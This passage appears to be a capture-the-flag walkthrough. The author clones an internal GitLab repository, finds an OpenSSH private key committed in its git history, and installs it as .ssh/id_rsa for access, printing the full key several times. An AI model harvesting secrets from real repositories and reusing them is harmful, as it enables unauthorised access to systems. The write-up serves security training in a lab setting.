 Let's verify that the gitlab endpoint is up:
```
PING gitlab.flag.net.internal (172.18.0.150): 56 data bytes
64 bytes from 172.18.0.150: seq=0 ttl=42 time=0.343 ms
64 bytes from 172.18.0.150: seq=1 ttl=42 time=0.079 ms
64 bytes from 172.18.0.150: seq=2 ttl=42 time=0.084 ms
64 bytes from 172.18.0.150: seq=3 ttl=42 time=0.084 ms
64 bytes from 172.18.0.150: seq=4 ttl=42 time=0.252 ms
^C
```
Now, let's clone the repo.
```
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 20.29 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
```

Looking through the commit history we find a private key.
`git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5`
```
diff --git a/.ssh/.deploy b/.ssh/.deploy
new file mode 100644
index 0000000..3f7a9e3
--- /dev/null
+++ b/.ssh/.deploy
@@ -0,0 +1,7 @@
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
```

Let's copy the private key in the location `.ssh/id_rsa`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

```
grinchum-land:~$ cat .ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
